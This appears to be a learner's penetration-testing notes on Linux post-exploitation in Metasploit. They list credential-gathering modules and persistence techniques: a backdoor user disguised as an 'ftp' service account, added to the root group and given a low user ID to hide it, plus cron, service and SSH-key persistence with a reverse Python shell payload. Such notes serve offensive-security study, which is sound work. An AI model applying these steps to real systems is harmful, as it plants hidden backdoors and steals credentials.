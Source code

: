 Note for hashs:
`root: $<hashing algo used>$<TheActualHash>`
1: MD5
2:Blowfish
Anything above too hard to crack if the passwords are proper (ie not password1234)

Extra mods:
post/multi/gather/docker_creds
post/linux/gather/ecryptfs_creds
post/linux/gather/enum_psk
post/linux/gather/enum_xchat
post/linux/gather/phpmyadmin_credstea
post/linux/gather/pptpd_chap_secrets


### Persistence on linux

Demo:
Add a user after gaining admin
`useradd -m ftp -s /bin/bash`
--> add a useraccount that looks like a service account for ftp 
--> and home directory for the user is given as /bin/bash (user starts from here ~)
--> then set the UNIX password

Give admin access
`usermod -aG root ftp`
--> adds user "ftp" to the "root" group

Other methods
- Creating persistent service or a cron job
- Adding an SSH key to the actual ssh directory
- Modify backdoors user id make it look like it wasnt just created (lower userid and higher up the /etc/passwd file)
`usermod -u 15 ftp`

`search platform:linux persistence`
-> whole bunch of them

/local/apt_package_manager_persistence
-> Relies on execution of package manager (not the best)

/local/cron_persistence
-> sets a cronjob
`set LHOST/LPORT`

/local/service_persistence
`set session `
`set payload cmd/unix/reverse_python`

/manage/sshkey_persistence
- works the best and quiet
`set CREATESSHFOLDER true`
`set session`

`loot`
`cat <dir for the private key>`
